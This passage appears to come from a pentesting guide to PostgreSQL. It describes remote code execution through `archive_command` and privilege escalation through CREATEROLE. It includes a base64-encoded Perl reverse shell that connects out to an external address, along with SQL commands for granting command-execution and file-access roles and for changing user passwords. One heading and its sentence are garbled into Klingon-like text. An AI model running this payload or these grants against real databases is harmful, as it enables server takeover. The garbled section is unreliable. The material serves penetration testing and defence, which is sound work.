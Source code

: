 While testing this I noticed that this will only work if the **private key file has privileges 640**, it's **owned by root** and by the **group ssl-cert or postgres** (so the postgres user can read it), and is placed in _/var/lib/postgresql/12/main_.

#### **RCE with archive\_command**

**More** [**information about this config and about WAL here**](https://medium.com/dont-code-me-on-that/postgres-sql-injection-to-rce-with-archive-command-c8ce955cf3d3)**.**

Another attribute in the configuration file that is exploitable is `archive_command`.

For this to work, the `archive_mode` setting has to be `'on'` or `'always'`. If that is true, then we could overwrite the command in `archive_command` and force it to execute via the WAL (write-ahead logging) operations.

The general steps are:

1. Check whether archive mode is enabled: `SELECT current_setting('archive_mode')`
2. Overwrite `archive_command` with the payload. For eg, a reverse shell: `archive_command = 'echo "dXNlIFNvY2tldDskaT0iMTAuMC4wLjEiOyRwPTQyNDI7c29ja2V0KFMsUEZfSU5FVCxTT0NLX1NUUkVBTSxnZXRwcm90b2J5bmFtZSgidGNwIikpO2lmKGNvbm5lY3QoUyxzb2NrYWRkcl9pbigkcCxpbmV0X2F0b24oJGkpKSkpe29wZW4oU1RESU4sIj4mUyIpO29wZW4oU1RET1VULCI+JlMiKTtvcGVuKFNUREVSUiwiPiZTIik7ZXhlYygiL2Jpbi9zaCAtaSIpO307" | base64 --decode | perl'`
3. Reload the config: `SELECT pg_reload_conf()`
4. Force the WAL operation to run, which will call the archive command: `SELECT pg_switch_wal()` or `SELECT pg_switch_xlog()` for some Postgres versions

## **Postgres Privesc**

### CREATEROLE Privesc

#### **Grant**

According to the [**docs**](https://www.postgresql.org/docs/13/sql-grant.html): _Roles having **`CREATEROLE`** privilege can **grant or revoke membership in any role** that is **not** a **superuser**._

So, if you have **`CREATEROLE`** permission you could grant yourself access to other **roles** (that aren't superuser) that can give you the option to read & write files and execute commands:
```sql
# Access to execute commands
GRANT pg_execute_server_program TO username;
# Access to read files
GRANT pg_read_server_files TO username;
# Access to write files
GRANT pg_write_server_files TO username;
```
#### QapwI' HIq

QapwI' HIqDaq **ghItlh** **QapwI'** **non-superusers**'a' **ghItlh** **ghItlh**.
```sql
#Change password
ALTER USER user_name WITH PASSWORD 'new_password';
```
#### Privesc to SUPERUSER
